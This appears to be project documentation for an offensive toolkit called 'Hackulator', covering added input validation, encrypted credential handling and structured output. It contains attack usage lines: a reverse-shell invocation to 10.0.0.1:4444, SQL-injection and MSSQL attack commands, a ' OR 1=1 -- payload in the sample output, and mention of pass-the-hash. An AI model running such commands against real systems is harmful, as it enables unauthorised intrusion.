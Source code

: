 # Security Improvements Implementation

This document outlines the security enhancements implemented in the Hackulator tools.

## 1. Input Validation (`input_validator.py`)

### Features:
- **IP Address Validation**: Validates IPv4/IPv6 addresses using `ipaddress` module
- **Port Validation**: Ensures ports are within valid range (1-65535)
- **Hostname Validation**: Validates hostname format using regex patterns
- **URL Validation**: Validates URL structure using `urllib.parse`
- **Hash Validation**: Validates hash formats (MD5, SHA1, SHA256, SHA512, NTLM)
- **Command Safety**: Checks for dangerous characters in commands
- **Filename Sanitization**: Prevents path traversal attacks

### Usage:
```python
from input_validator import InputValidator

validator = InputValidator()
if validator.validate_ip("192.168.1.1"):
    # Process valid IP
    pass
```

## 2. Secure Credential Management (`credential_manager.py`)

### Features:
- **Encrypted Storage**: Uses Fernet encryption for stored credentials
- **Environment Variables**: Prioritizes environment variables over stored credentials
- **Restricted Permissions**: Sets file permissions to 600 (owner read/write only)
- **Secure Key Management**: Generates and stores encryption keys securely

### Usage:
```python
from credential_manager import CredentialManager

cred_manager = CredentialManager()
cred_manager.store_credential('mssql', 'sa', 'password')
username, password = cred_manager.get_safe_credential('mssql')
```

### Environment Variables:
```bash
export MSSQL_USERNAME=sa
export MSSQL_PASSWORD=password
export MYSQL_USERNAME=root
export MYSQL_PASSWORD=password
```

## 3. Tool Abstraction (`base_tool.py`)

### Features:
- **Common Argument Parsing**: Standardized arguments across all tools
- **Error Handling**: Consistent error handling and reporting
- **Output Formatting**: Support for text, JSON, and XML output formats
- **Result Management**: Structured result collection and output
- **Validation Integration**: Built-in input validation

### Base Class Methods:
- `validate_target()`: Validates IP addresses and hostnames
- `validate_port()`: Validates port numbers
- `add_result()`: Adds structured results
- `handle_error()`: Consistent error handling
- `output_results()`: Formats and outputs results

## 4. Structured Output

### Text Format (Default):
```
[+] Success message
[-] Error message
[*] Info message
[!] Warning message
```

### JSON Format:
```json
[
  {
    "type": "success",
    "message": "SQL injection detected",
    "timestamp": "2024-01-01T12:00:00",
    "data": {
      "payload": "' OR 1=1 --",
      "url": "http://example.com/page?id=1"
    }
  }
]
```

### XML Format:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<tool_results>
  <result type="success" timestamp="2024-01-01T12:00:00">
    <message>SQL injection detected</message>
    <data>
      <payload>' OR 1=1 --</payload>
      <url>http://example.com/page?id=1</url>
    </data>
  </result>
</tool_results>
```

## 5. Updated Tools

### os_exploits.py:
- Input validation for reverse shell parameters (IP and port)
- NTLM hash format validation for Pass-the-Hash attacks
- Structured output for all results
- Inherits from BaseTool for consistency

### db_attacks.py:
- Secure credential management for database connections
- URL validation for web targets
- Structured output for SQL injection results
- Environment variable support for credentials

## 6. Security Best Practices Implemented

### Input Sanitization:
- All user inputs are validated before processing
- Dangerous characters are filtered from commands
- Path traversal attempts are blocked in filenames

### Credential Security:
- No hardcoded credentials in source code
- Encrypted storage of sensitive data
- Environment variable prioritization
- Restricted file permissions

### Error Handling:
- Consistent error reporting across tools
- No sensitive information in error messages
- Graceful handling of invalid inputs

### Output Security:
- Structured output prevents injection attacks
- Sensitive data is masked in logs
- Multiple output formats for different use cases

## 7. Installation and Setup

### Install Dependencies:
```bash
pip install -r requirements.txt
```

### Set Environment Variables:
```bash
export MSSQL_USERNAME=your_username
export MSSQL_PASSWORD=your_password
export MYSQL_USERNAME=your_username
export MYSQL_PASSWORD=your_password
```

### Usage Examples:
```bash
# JSON output
python os_exploits.py 192.168.1.1 --reverse-shell 10.0.0.1:4444 --output json

# XML output with verbose logging
python db_attacks.py http://example.com --sql-inject --output xml --verbose

# Using environment credentials
python db_attacks.py 192.168.1.1 --mssql
```

## 8. Migration Guide

### For Existing Scripts:
1. Update imports to include new modules
2. Replace hardcoded credentials with credential manager
3. Add input validation for user inputs
4. Update output statements to use structured results
5. Inherit from BaseTool for new consistency

### Example Migration:
```python
# Before
print(f"[+] Found vulnerability: {vuln}")

# After  
self.add_result('success', f'Found vulnerability: {vuln}', {
    'vulnerability_type': vuln_type,
    'severity': 'high'
})
```

This implementation provides a robust security foundation while maintaining the functionality and usability of the original tools.